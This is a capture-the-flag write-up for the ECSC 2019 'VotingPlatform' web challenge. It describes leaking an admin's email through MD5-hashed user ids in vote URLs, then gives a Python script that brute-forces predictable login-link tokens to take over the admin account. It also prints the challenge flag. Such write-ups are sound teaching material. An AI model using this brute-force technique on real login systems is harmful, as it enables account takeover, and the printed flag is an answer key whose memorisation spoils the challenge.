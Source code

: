 # ECSC 2019
**Author: Feraru Mihail - mihailferaru2000@gmail.com - littlewho**

## VotingPlatform (150): Web
```
ECSC{64e6b8d6a3c45bdadf85b0a7b3bf33a78185613dd0ef9675dd02db2a11abc066}
```

### Proof of flag
```
```

### Summary
We have a voting platform on https://voting.challs.cybersecuritychallenge.ro/ . The website has the following features:
* registration
* login using username:password
* login using link sent via email
* vote
* see my vote
Each user's vote look like this https://voting.challs.cybersecuritychallenge.ro/dashboard/your-vote/eb160de1de89d9058fcb0b968dbbbd68 . Pasting the vote id into any online hash cracker will reveal that it is the user id hashed using MD5. 
Login links look like this https://voting.challs.cybersecuritychallenge.ro/old-check/5ca9eb010 . It seems that is not a hash, but it could be short enough to be bruteforced. 

### Proof of solving
I hashed id = 1 (`c4ca4238a0b923820dcc509a6f75849b`) and leaked the email of the administrator.
![](./web1.png)
I request several login link and I observed that they are incremental, changing only the last 2, 3 or very rare 4 characters. I wrote a script that it trying to login onto random login links and the I started requesting few login links for the administrator. In few seconds we've got the flag.
Script:
```python
from itertools import product
from requests import get
k="abcdef1234567890"
url="https://voting.challs.cybersecuritychallenge.ro/old-check/5ca911{}"
for i in product(k, repeat=3):
    print (url.format(''.join(i)))
    rsp = get(url.format(''.join(i)))
    if "sqe027adVn@bkmvenjrbhvuerb23.com" in rsp.text:
        print ("found!!!!")
        print (rsp.text)
        break
```
![](./web2.png)
